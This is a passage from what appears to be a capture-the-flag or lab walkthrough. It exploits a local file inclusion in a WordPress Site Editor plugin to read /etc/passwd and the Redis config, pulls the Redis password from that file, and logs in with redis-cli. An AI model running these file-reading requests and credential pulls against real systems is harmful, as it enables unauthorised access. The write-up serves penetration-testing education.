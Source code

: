 ```
redis:x:107:114::/var/lib/redis:/usr/sbin/nologin
alice:x:1000:1000::/home/alice:/bin/bash
{"success":true,"data":{"output":[]}}
```

That was successful! From our port scan, we saw a Redis server running on the target. Let's use this LFI to dump the Redis config file. It's likely we will find it at **/etc/redis/redis.conf**. The config file is large, so let's output it to a file.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf -o redis.conf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 61899    0 61899    0     0   463k      0 --:--:-- --:--:-- --:--:--  464k
```

We'll search the file looking for words like "password". We come along a section that has an entry labeled "requirepass" with a value of `Ready4Redis?`.

```
...
################################## SECURITY ###################################

# Require clients to issue AUTH <PASSWORD> before processing any other
# commands.  This might be useful in environments in which you do not trust
# others with access to the host running redis-server.
#
# This should stay commented out for backward compatibility and because most
# people do not need auth (e.g. they run their own servers).
#
# Warning: since Redis is pretty fast an outside user can try up to
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
#
requirepass Ready4Redis?
...
```

### Redis Enumeration

With this password, we can access the redis service. Let's install `redis-tools` and connect using `redis-cli` passing the password we just found.

```
┌──(kali㉿kali)-[~]
└─$ sudo apt install redis-tools
...
┌──(kali㉿kali)-[~]
└─$ redis-cli -h 192.168.120.85 -a Ready4Redis?
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
192.168.120.85:6379> ping
PONG
192.168.120.85:6379> 
```
